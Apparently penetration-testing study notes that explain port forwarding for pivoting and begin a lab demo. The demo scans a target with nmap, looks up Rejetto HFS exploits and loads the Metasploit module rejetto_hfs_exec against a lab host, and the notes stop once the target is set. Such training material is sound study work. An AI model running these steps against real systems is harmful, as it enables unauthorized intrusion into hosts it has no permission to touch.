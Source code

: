 **Port Forwarding**

- Port forwarding is the process of redirecting traffic from a specific port on a target system to a specific port on our system.
- In the context of pivoting, we can forwar a remote port on a previously inaccessible host to a local port on our Kali Linux system so that we can remotely interact/exploit the service running on that port.

![image](https://github.com/user-attachments/assets/65499ceb-6a6c-4ffe-902a-ea73f460927b)

### Demo: Pivoting

In this demonstration, we will perform pivoting to exploit another system (VICTIM-2) from a compromised host (VICTIM-1). This involves scanning, exploiting, and obtaining information from the network.

We have following IP's:
Machine 1: 10.2.18.78
Machine 2: 10.2.29.55
Subnet: 10.2.16.0/20 (?)

---

#### 1. Scanning the Initial Target

We start by scanning the initial target (VICTIM-1) to identify open ports and services:

```bash
nmap -sV -p 80 demo1.ine.local
```
- **Explanation**: This command uses Nmap to scan for services running on port 80 of the target host, with the `-sV` flag enabling service version detection.

Next, we search for any known exploits for the identified service:

```bash
searchsploit rejetto
```

Now we launch Metasploit to exploit the service:

```bash
msfconsole
```

Search for relevant exploits within Metasploit:

```bash
search rejetto
```

Use the identified exploit module:

```bash
use exploit/windows/http/rejetto_hfs_exec
```

Set the target host for the exploit:

```bash
set rhosts demo1.ine.local
```
